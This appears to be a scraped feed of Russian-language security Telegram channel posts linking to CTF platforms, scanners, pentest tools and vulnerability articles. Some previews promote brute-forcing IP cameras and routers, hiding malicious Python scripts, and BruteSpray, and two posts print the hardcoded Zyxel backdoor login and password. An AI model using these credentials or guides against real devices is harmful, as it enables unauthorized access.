</td></tr></table>

---

# ctfchat
`2021-01-19 15:32:29`

<blockquote>
https://github.com/glzjin/CTFd-Whale
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/glzjin/CTFd-Whale">
https://github.com/glzjin/CTFd-Whale
</a>
<blockquote>
A plugin for CTFd which allow your users to deploy a standalone instance for challenges. - glzjin/CTFd-Whale
</blockquote>
</td></tr></table>

---

# isast
`2021-01-18 13:59:17`

<blockquote>
HuskyCI - open source tool that orchestrates security tests 

huskyCI - open-source утилита для упрощения встраивания статических анализаторов в процессы CI. Из поддерживаемых Bandit, Safety, Brakeman, Npm Audit, Yarn Audit, Gosec, SpotBugs с Find Sec Bugs, TFSec, GitLeaks. Есть клиентская и серверная части. Веб-морда для управления уязвимостями отсутствует, но можно отправить запрос на API для извлечения результатов из БД. Подробнее можно прочитать в документации.

https://github.com/globocom/huskyci

&#35;dev &#35;ops &#35;sast &#35;secrets
</blockquote>

---

# ctfchat
`2021-01-18 10:32:03`

<blockquote>
собсна да https://github.com/pwn2winctf/NIZKCTF
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/pwn2winctf/NIZKCTF">
https://github.com/pwn2winctf/NIZKCTF
</a>
<blockquote>
Upstream for Non Interactive Zero Knowledge CTF platform - pwn2winctf/NIZKCTF
</blockquote>
</td></tr></table>

---

# webware
`2021-01-18 09:31:28`

* https://telegra.ph/file/942302ed9ea9f1c731679.jpg
* https://codeby.net/threads/ujazvimost-cve-2021-3019.76371/
* https://codeby.net/threads/utorrent-cve-2020-8437-obzor-i-ehkspluatacija.75219/
* https://codeby.net/threads/bazovyj-nmap-metody-skanirovanija-i-ispolzovanie-skriptov.75410/
* https://codeby.net/media/radio-kodebaj-15-vypusk.172/

<blockquote>
​​Радио Кодебай. 15 выпуск.

Статьи:
✔️ Уязвимость CVE-2021-3019
✔️ uTorrent CVE-2020-8437 - обзор и эксплуатация
✔️ Базовый nmap: методы сканирования и использование скриптов

Музыка:
✔️ Koan - Alone in Canoe
✔️ Rick Astley - Never Gonna Give You Up
✔️ BLVCK CEILING – recover
✔️ Satanwave - DMT

🔥  Слушать подкаст 🔥

&#35;Radio
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/942302ed9ea9f1c731679.jpg">
https://telegra.ph/file/942302ed9ea9f1c731679.jpg
</a>
</td></tr></table>

---

# overlamer1
`2021-01-17 21:51:45`

* https://telegra.ph/PyCompile-pryachem-python-skript-10-29

<blockquote>
PyCompile: прячем python скрипт
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/PyCompile-pryachem-python-skript-10-29">
https://telegra.ph/PyCompile-pryachem-python-skript-10-29
</a>
<blockquote>
Всем привет! Нашел крутой инструмент, который спрячет ваш зловещий (ну может и обычный) скрипт на python. Можно сказать это недокриптование(хотя даже недокриптованием сложно назвать), но впринципе просто скрыть от других нарисанное можно. Перейдем к установке. Установка Обновим пакеты: apt update apt upgrade -y Качаем гит и питон второй версии: apt install git python2 Качаем инструмент: git https://github.com/htr-tech/Pycompile Открываем папку: cd Pycompile Запускаем скрипт: python2 compile.py По картинке…
</blockquote>
</td></tr></table>

---

# isast
`2021-01-17 20:42:57`

* https://please.build/

<blockquote>
Please is a cross-language build system with an emphasis on high performance, extensibility and reproducibility. It supports a number of popular languages and can automate nearly any aspect of your build process.

https://github.com/thought-machine/please

&#35;golang &#35;python &#35;github &#35;tool &#35;monorepo
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/thought-machine/please">
https://github.com/thought-machine/please
</a>
<blockquote>
High-performance extensible build system for reproducible multi-language builds. - thought-machine/please
</blockquote>
</td></tr></table>

---

# webware
`2021-01-17 10:17:00`

* https://telegra.ph/file/6a821df43739236991c14.png

<blockquote>
​​Уязвимость CVE-2021-3019

Добрый день,Уважаемые Форумчане и Друзья. Поздравляю всех с Новым Годом,желаю здоровья и счастья. Но безопасность всегда стоит впереди даже в праздники. И сегодня поговорим об одной из первых уязвимостей нового года.

Читать: https://codeby.net/threads/ujazvimost-cve-2021-3019.76371/

&#35;cve &#35;pentest
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/6a821df43739236991c14.png">
https://telegra.ph/file/6a821df43739236991c14.png
</a>
</td></tr></table>

---

# ctfchat
`2021-01-15 15:47:49`

<blockquote>
https://github.com/HackerDom/ctfcup-2019-tb
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/HackerDom/ctfcup-2019-tb">
https://github.com/HackerDom/ctfcup-2019-tb
</a>
<blockquote>
CTF Cup 2019. Developed with ♥ by HackerDom team &amp; @revervand - HackerDom/ctfcup-2019-tb
</blockquote>
</td></tr></table>

---

# MPSIEMChat
`2021-01-15 10:17:55`

<blockquote>
Можно попробовать взять за основу конфиг вот отсюда: https://github.com/SwiftOnSecurity/sysmon-config
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/SwiftOnSecurity/sysmon-config">
https://github.com/SwiftOnSecurity/sysmon-config
</a>
<blockquote>
Sysmon configuration file template with default high-quality event tracing - SwiftOnSecurity/sysmon-config
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-13 16:53:29`

<blockquote>
https://github.com/zmap/zmap/wiki
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/zmap/zmap/wiki">
https://github.com/zmap/zmap/wiki
</a>
<blockquote>
ZMap is a fast single packet network scanner designed for Internet-wide network surveys. - zmap/zmap
</blockquote>
</td></tr></table>

---

# webware
`2021-01-13 08:10:18`

<blockquote>
Добрый вечер, с разрешения админа скину в чатик тулзу для коллаборации тестирований на проникновение (аналог dradis/faraday). Позволяет менеджерить проекты пентеста внутри команды, есть совместимость с 10 тулзами (+burp плагин). Опенсорсная, портативная и кроссплатформенная. Также можно запустить бесплатно в облаке heroku в один клик. В целом на противостоянии может помочь когда много людей из команды ковыряют одну инфраструктуру (+ генерация отчетов по произвольному шаблону). Если есть вопросы/предложения, то лучше в лс.

https://gitlab.com/invuls/pentest-projects/pcf
</blockquote>

<table><tr><td><b>→</b><a href="https://gitlab.com/invuls/pentest-projects/pcf">
https://gitlab.com/invuls/pentest-projects/pcf
</a>
<blockquote>
Opensource, cross-platform and portable toolkit for automating routine processes when carrying out various works for testing!
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-11 10:04:05`

* https://telegra.ph/Avtomaticheskij-brutfors-s-Brutespay-08-21

<blockquote>
Автоматический брутфорс с Brutespay
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/Avtomaticheskij-brutfors-s-Brutespay-08-21">
https://telegra.ph/Avtomaticheskij-brutfors-s-Brutespay-08-21
</a>
<blockquote>
Хочу ознакомить Вас с утилитой, предназначение которой автоматизировать проведение брутфорс-атак по результатам сканирования nmap. источник статьи BruteSpray – использует сгенерированный nmap файл (.gnmap). И использует его для осуществления брутфорса на стандартные связки учетных данных с помощью Medusa. Так же BruteSpray может атаковать и нестандартные порты сервисов, если сканирование проводилось с флагом –sV. Установка: &gt; git clone https://github.com/x90skysn3k/brutespray Зависимости: · Nmap · Python 2.7.x…
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-09 21:51:27`

<blockquote>
github.com/kappactf/mailbox
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/kappactf/mailbox">
https://github.com/kappactf/mailbox
</a>
<blockquote>
Contribute to kappactf/mailbox development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-09 19:20:17`

<blockquote>
https://github.com/DestructiveVoice/DestructiveFarm/blob/master/docs/ru/exploit_format.md
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/DestructiveVoice/DestructiveFarm/blob/master/docs/ru/exploit_format.md">
https://github.com/DestructiveVoice/DestructiveFarm/blob/master/docs/ru/exploit_format.md
</a>
<blockquote>
📢 🔒  Exploit farm for attack-defense CTF competitions - DestructiveVoice/DestructiveFarm
</blockquote>
</td></tr></table>

---

# phd_soc
`2021-01-09 16:17:34`

<blockquote>
https://github.com/hslatman/awesome-threat-intelligence
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/hslatman/awesome-threat-intelligence">
https://github.com/hslatman/awesome-threat-intelligence
</a>
<blockquote>
A curated list of Awesome Threat Intelligence resources - hslatman/awesome-threat-intelligence
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-09 14:45:34`

<blockquote>
ну вон мой тред есть у термуксобояр https://github.com/termux/termux-app/issues/1072
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/termux/termux-app/issues/1072">
https://github.com/termux/termux-app/issues/1072
</a>
<blockquote>
The ability to run execve() on files within an application's home directory will be removed in target API &gt; 28. Here is the issue on Google bug tracker: https://issuetracker.google.c...
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-09 01:18:36`

* https://graph.org/Hacking-kamer-v-termux-06-10

<blockquote>
Хацкинг камер в termux
</blockquote>

<table><tr><td><b>→</b><a href="https://graph.org/Hacking-kamer-v-termux-06-10">
https://graph.org/Hacking-kamer-v-termux-06-10
</a>
<blockquote>
Дисклеймер: Статья предоставлена исключительно в ознакомительных целях! Мы не несём ответственность за ваши действия. Источник статьи Всем хай! Сегодня я вам покажу один из способов брута ip камер для их взлома через стандартные пароли. Погнали к установке! Сначала нужно обновить все пакеты: pkg update pkg upgrade Теперь установим python3: apt install python Качаем git: apt install git Осталось клонировать репозиторий с скриптом: git clone https://github.com/yan4ikyt/webhack/ После окончания скачивания…
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-07 19:51:34`

<blockquote>
https://github.com/telegramdesktop/tdesktop/issues/8953

Никак, судя по всему
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/telegramdesktop/tdesktop/issues/8953">
https://github.com/telegramdesktop/tdesktop/issues/8953
</a>
<blockquote>
As of right now, it is only possible for admins of the group to be anonymous if the creator of the group enables that option for them. Better way would be to allow every admin to switch this option...
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-07 12:24:30`

<blockquote>
https://github.com/SecureAuthCorp/impacket
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/SecureAuthCorp/impacket">
https://github.com/SecureAuthCorp/impacket
</a>
<blockquote>
Impacket is a collection of Python classes for working with network protocols. - SecureAuthCorp/impacket
</blockquote>
</td></tr></table>

---

# chkpchat
`2021-01-05 15:16:55`

<blockquote>
Для информации, но возможно фэйк. 
Более 100 тысяч устройств Zyxel оказались с бэкдором - файерволлы, гейтвеи VPN, и тд содержат в себе захардкоженные логин-пароль для админского доступа удаленно. Логин zyfwp и пароль &quot;PrOw!aN_fXp&quot;, ну с кем не бывает.

https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html

Информация об апдейтах устройств https://www.zyxel.com/support/CVE-2020-29583.shtml
</blockquote>

<table><tr><td><b>→</b><a href="https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html">
https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html
</a>
<blockquote>
Zyxel is a popular brand for firewalls that are marketed towards small and medium businesses. Their Unified Security Gateway (USG) product line is often used as a firewall or VPN gateway. As a lot of us are working from home, VPN-capable devices have been quite selling well lately.
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-05 14:34:10`

* https://github.com/teamteamdev/ugractf-2019/blob/master/tasks/bow/WRITEUP.md

<blockquote>
Райтап на кек
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/teamteamdev/ugractf-2019/blob/master/tasks/bow/WRITEUP.md">
https://github.com/teamteamdev/ugractf-2019/blob/master/tasks/bow/WRITEUP.md
</a>
<blockquote>
10–11 июня 2019 · Соревнование по информационной безопасности - teamteamdev/ugractf-2019
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-05 03:18:11`

<blockquote>
Более 100 тысяч устройств Zyxel оказались с бэкдором - файерволлы, гейтвеи VPN, и тд содержат в себе захардкоженные логин-пароль для админского доступа удаленно. Логин zyfwp и пароль &quot;PrOw!aN_fXp&quot;, ну с кем не бывает.

https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html

Информация об апдейтах устройств https://www.zyxel.com/support/CVE-2020-29583.shtml
</blockquote>

<table><tr><td><b>→</b><a href="https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html">
https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html
</a>
<blockquote>
Zyxel is a popular brand for firewalls that are marketed towards small and medium businesses. Their Unified Security Gateway (USG) product line is often used as a firewall or VPN gateway. As a lot of us are working from home, VPN-capable devices have been quite selling well lately.
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-05 00:17:33`

<blockquote>
https://github.com/aircrack-ng/rtl8188eus
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/aircrack-ng/rtl8188eus">
https://github.com/aircrack-ng/rtl8188eus
</a>
<blockquote>
RealTek RTL8188eus WiFi driver with monitor mode &amp; frame injection support - aircrack-ng/rtl8188eus
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-04 23:52:09`

* https://telegra.ph/RouterSploit-Poisk-uyazvimostej-i-vzlom-Wi-Fi-routera-08-21

<blockquote>
RouterSploit: Поиск уязвимостей и взлом Wi-Fi роутера
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/RouterSploit-Poisk-uyazvimostej-i-vzlom-Wi-Fi-routera-08-21">
https://telegra.ph/RouterSploit-Poisk-uyazvimostej-i-vzlom-Wi-Fi-routera-08-21
</a>
<blockquote>
Все действия мы будем производить с помощью Termux. Для взлома роутеров есть подобная программа - &quot;RouterSploit&quot;. Она также, как и Metasploit, позволяет эксплуатировать уязвимости, но только у Wi-Fi роутеров. источник статьи Прежде чем устанавливать и запускать RouterSploit нужно прописать следующие команды: apt update &amp; upgrade apt install git apt install bash apt install python pip install futureapt apt install git figletgit git clone https://github.com/41Team/RoutersploitTermux Переходим в папку RoutersploitTermux…
</blockquote>
</td></tr></table>

---

# webware
`2021-01-04 20:17:00`

* https://telegra.ph/file/d974068ecbc56f7607885.jpg

<blockquote>
​​Pegasus Chrysaor атакует WhatsApp

Некоторые владельцы мобильных телефонов по тем или иным причинам отключают автоматическое обновление ПО. Для них и предназначена очередная статья из серии “ОСТОРОЖНО!”. Facebook исправил критическую уязвимость нулевого дня в WhatsApp, обозначенную как CVE-2019-3568 , которая использовалась для удаленной установки программ-шпионов на телефоны путем вызова целевого устройства. Уязвимость нулевого дня в WhatsApp - это проблема переполнения буфера, которая влияет на стек VOIP WhatsApp. Удаленный злоумышленник может использовать уязвимость для выполнения произвольного кода, отправляя специально созданные пакеты SRTCP на целевое мобильное устройство.

Читать: https://codeby.net/threads/pegasus-chrysaor-atakuet-whatsapp.67775/

&#35;whatsapp &#35;cve &#35;pegasus
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/d974068ecbc56f7607885.jpg">
https://telegra.ph/file/d974068ecbc56f7607885.jpg
</a>
</td></tr></table>

---

# isast
`2021-01-04 18:09:03`

<blockquote>
Вы ведь знаете, что в го надо аккуратно с переменными из for-range обращаться, да?

Наверное каждый хоть раз обжигался о 
for k, v :&#61; range foo {
    go func() { run(k,v) }()
}

или что-то похожее, где &quot;захватывается&quot; значение в кложуре. Есть даже пропозал, что давайте от этого уйдём (в го2, когдатотам) https://github.com/golang/go/issues/20733

Там забавный комент добавили, может слышали, Let's Encrypt недавно откатили 3М+ сертификатов. Угадайте из-за чего)))

https://github.com/letsencrypt/boulder/pull/4690/files&#35;diff-d02067a9f9a2bed1110fd4e98641c2effcf5d1d5f18461e35d6ac1535f6e2c21L1411-R1414
</blockquote>

---

# ctfchat
`2021-01-04 12:49:23`

<blockquote>
https://github.com/Kochanac/ctf_thief_tools
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/Kochanac/ctf_thief_tools">
https://github.com/Kochanac/ctf_thief_tools
</a>
<blockquote>
small cli scripts to dump &amp; manage some ctf tasks. Contribute to Kochanac/ctf_thief_tools development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

